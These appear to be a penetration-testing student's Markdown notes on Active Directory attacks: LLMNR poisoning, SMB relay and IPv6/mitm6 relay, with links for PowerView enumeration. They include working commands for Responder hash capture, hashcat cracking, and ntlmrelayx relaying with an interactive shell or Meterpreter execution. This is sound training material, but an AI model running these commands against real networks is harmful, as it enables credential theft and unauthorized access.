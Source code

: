 # Initial Attack Vector
### LLMNR Poisoning
 - Link Local Multicast Name Resolution.
 - Previously known as  NBT-NS.
 - Used to identify hosts when DNS fails.
 - Flaw here is, service responds with username and NTLM-v2 Hash when approiately responded to.
 - Attack process
    1. Victim tries to connec to `\\some_machine`, so it queries DNS server.
    2. If the server does not have, the victim does a broadcast.
    3. The attacker then replies to victim, yes i have `\\some_machine`, send me your hash, and I will connect you to it.
    4. Victim then sends its NTLM hash.
 - Needs lot of traffic, so run first thing. 
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv`
 - `hashcat -m 5600 hash.txt rockyou.txt`

### SMB relay
 - Instead of cracking hash, just pass in the hash directly.
 - To find devices with smbsigning disabled `nmap --script=smb2-security-mode.nse -p445 <network>/24`.
 - Usually servers have smb signing enabled and required, but hosts will have smb signing enabled but not required.
 - Needs SMB signing to be disabled (SMB signing disabled means machine does not check where the hash came from), relayed creds must have admin priv on machine.
 - Turn off SMB and HTTP, we don't want to respond, listen on rsponder for hashes.
 - use ntlmrelayx `python ntlmrelayx -tf targets.txt -smb2support`. targets.txt will have IPs of victims.
 - For newer kali `impacket-ntlmrelayx -tf targets.txt -smb2support`
 - `-i` to get interactive smb shell, `-e meterpreter.exe`

### IPv6 attack
 - A system has IPv6 configured, DNS for it is usually not configured, an attacker claims itself to be DNS server for IPv6, and when victim queries it, it will get creds as well.
 - `mitm6 -d MARVEL.local` to listen
 - `ntlmrelayx.py -6 -t ldaps://<AD_IP> -wh fakewpad.ldap.local -l lootme`
 - Soln: disable IPv, ...
 - https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/ 
 - https://github.com/fortra/impacket/releases 
 
### Others
 - Nessus, nmap scan.
 - Look for websites within the scopes.
 - metasploit http_version module.
 - (Pass Back Attack) Printer stuffs https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack
 - Jenkins instances.
 - Thinking outside the box? 
 - Other open ports?

# Post Compromise Enumeration
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
 - https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
 - Execute ps1 script, it will be loaded, run commands.
